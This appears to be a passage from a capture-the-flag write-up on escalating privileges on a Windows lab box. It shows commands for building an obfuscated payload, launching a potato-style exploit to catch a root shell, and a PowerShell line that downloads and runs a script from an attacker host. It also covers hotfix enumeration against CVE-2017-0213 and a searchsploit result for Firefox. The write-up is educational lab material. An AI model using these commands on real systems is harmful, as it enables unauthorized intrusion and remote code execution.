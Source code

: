 Then just issue the build order:

`/build_x64_go.sh output/go_symmetric_9003.exe.go ebowla.exe`

Copy those two executables somewhere sensible then to execute on the target machine just do the following (make sure you have a listener open to catch the shell)


```
.\lonleypotato.exe * ebowla.exe
```

Mine took a moment to come back, but it happily caught a Root shell. So that's number two. What about number 3?

__ROOT SHELL 3__

*CVE-2017-0213*

Yay public exploits! 

we're pretty sure this is the on we're looking for, but just to be sure, we'll run RastaMouses Sherlock PowerShell script. 

```
PS C:\Windows\system32> IEX(IWR('http://10.10.14.3:8000/Sherlock.ps1'))
PS C:\Windows\system32> Find-AllVulns
```

That didn't return any results, but not to worry we can still track down Vulns using the `systeminfo` command and checking out the installed HotFixes:

```
Hotfix(s):                 2 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB4015217
```

Cool, so if we take that last KB value, and Google it we'll get the date that HotFix was released on, which in this case is April 11 2017. Now we can check against known vulnerabilities and the dates that they were released on, and if the latter is later than the former, then we're in business. 


```
CVE-2017-0213 | Windows COM Elevation of Privilege Vulnerability
Security Vulnerability

Published: 05/09/2017 | Last Updated : 09/12/2017
MITRE CVE-2017-0213 
```

Sweet, we're on. Now we just have to figure out how to work it and we can have another Root shell on this box.


__ROOT SHELL 4?!?!__ 

OK so it turns out there is a 4th way to exploit this box, using Firefox of all things. 

`searchsploit firefox`

```
Mozilla Firefox < 45.0 - 'nsHtml5TreeBuilder' Use-After-Free (EMET 5.52 Bypass)   | exploits/windows/remote/42484.html
```
